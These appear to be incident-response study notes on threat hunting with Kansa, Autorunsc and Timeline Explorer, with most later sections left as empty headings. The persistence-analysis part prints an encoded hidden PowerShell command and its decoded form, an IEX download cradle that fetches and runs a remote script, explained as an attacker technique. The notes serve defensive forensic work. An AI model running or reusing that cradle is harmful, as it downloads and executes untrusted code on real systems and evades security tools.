 # Threat Hunting & Assessment

- Upon confirming that a system is suspect or compromised, our protocol begins by examining the network utilizing scalable tools for data collection and analysis.  
- We prioritize stacking occurrence and analyzing outliers.

## Contents

- [Malware Persistence Analysis](#malware-persistence-analysis)
    - Autorunsc.exe, Timeline Explorer, base64 -d
- [Kansa Stack Analysis](#kansa-stack-analysis)
- [Evidence of Execution](#evidence-of-execution)
    - [Prefetch](#prefetch)
    - [ShimCache](#shimcache)
    - [Amcache](#amcache)
- [Tracking Credential Use](#tracking-credential-use)
    - [Event Log Explorer](#event-log-explorer)
    - [EvtxEcmd](#evtxecmd)
- [Tracking Lateral Movement](#tracking-lateral-movement)
    - Event Logs
- [WMI and PowerShell Log Analysis](#wmi-and-powershell-log-analysis)
## Malware Persistence Analysis

- We were provided with a large collection of triage files and memory images to analyze.

- The Kansa incident response framework was utilized on the network during live response.

- Autorunsc.exe is a tool that Kansa executes which is used to identify programs that start automatically at system boot or user logon called ASEPs (Auto-Start Extensibility Point).

### Prepare for Analysis

- One of the first things in incident response is to run the Autorunsc.exe tool during live response, using the Kansa IR framework

- Kansa script executes Autorunsc.exe as:
    `autorunsc.exe /accepteula -a * -c -h -s '*' -nobanner`
    - This also saves the output as CSV file that can be analyzed in Timeline explorer

#### Autoruns Filtering
1. Using Timeline Explorer, open the autoruns.csv file

![](2023-01-23-09-49-22.png)

- Select File -> Open -> Select file to open

![](2023-01-23-09-50-22.png)

- If the columns are too wide, use Tools -> Reset Column Widths to improve the view.

![](2023-01-23-09-51-59.png)

2. To reduce data, we will remove all trusted startup locations from view by filtering out trusted code signers in the Signer column.  This initial step may result in some false negatives, but it will make it simpler to detect abnormalities.

> Note:  
While instances of trusted companies having their code signing certificates stolen do occur, they are uncommon.  If such a situation were to be discovered, particularly involving major vendors like Microsoft, Apple, Google or McAfee, it would likely make national news and the discoverer would likely receive significant media attention.  It is also unlikely that malware would use a trusted certificate from these major vendors.

- Click the Filter icon on the Signer column to reveal the drop-down filter.

![](2023-01-23-12-00-10.png)

- We want to view untrusted entries only, so we will select them specifically. 
    - First, select all publishers that are "Not Verified." In this case, there's just one labeled "(Not verified) VMware, Inc."

![](2023-01-23-12-00-42.png)

- Next, we will identify any publishers that are not immediately recognizable as major software vendors. While some of these companies may be familiar, we will consider Dashlane, Mozilla, and Riverbed as non-major vendors, and investigate the autostart code they are responsible for on this system.

![](2023-01-23-12-01-27.png)

- Before you click "Close", also select Blanks. Blanks include those entries with no publisher information and no digital signatures. Then click Close.

![](2023-01-23-12-01-52.png)

3. Next, we will filter the Enabled column by selecting "enabled" from the Filter icon. This will initially limit our focus to active autostart entry points, removing a significant number of empty and inactive entries from our view.

![](2023-01-23-12-02-19.png)

4. Ready to start analysis!

### Autoruns Output Analysis

- Review Entry Location, Image Path, Launch String

- Identify anomalies

- WMI database entries are suspicious because legitimate WMI persistence is very rare in Windows.

- Look at "Not Verified" and "Signed" executables; compare hashes on VirusTotal.com

- Review Run and RunOnce key entries
    - RunOnce is designed for application cleanup, removing locked files after a system reboot

- C:\Windows\Temp running a 1.bat file from this folder; suspicious

- WMI Launch String is a PowerShell encoded string

`powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA`
<br>

- **-W Hidden** : sets the Window style to Normal, Minimized, Maximized, Hidden

- **-nop** : NoProfile, does not load Windows PS profile
- **-noni** : NonInteractive, no interactive prompt for the user
- **-ec** : Encoded Command in base64

- Decode with WSL Ubuntu in Windows:

        `echo <encoded-string> | base64 -d`
         IEX (New-Object System.Net.WebClient).downloadstring('http://squirreldirectory.com/a')

    - This is an example of a commonly used PowerShell technique known as a "download cradle." This single-line command downloads and executes a PowerShell script using the IEX (Invoke-Expression) cmdlet. The script is obtained from squirreldirectory site and is executed directly in memory, allowing attackers to bypass endpoint security measures and evade detection by anti-virus software.

- To verify the authenticity of suspicious entries, it's best to first check for digital signatures. 

    - Once that step is completed, you can compare the file hash provided by Autoruns against a known-good hash database or against known-bad databases like VirusTotal. 
    
    - Additionally, researching the vendor and product listed in the "Publisher" and "Description" fields can provide more information. 
    
    - Lastly, comparing the output with baselined output from a trusted, similar system can help identify any abnormalities.

---

## Kansa Stack Analysis

---
## Evidence of Execution
### Prefetch
### ShimCache
### Amcache
---
## Tracking Credential Use
### Event Log Explorer
### EvtxEcmd
---
## Tracking Lateral Movement
---

## WMI and PowerShell Log Analysis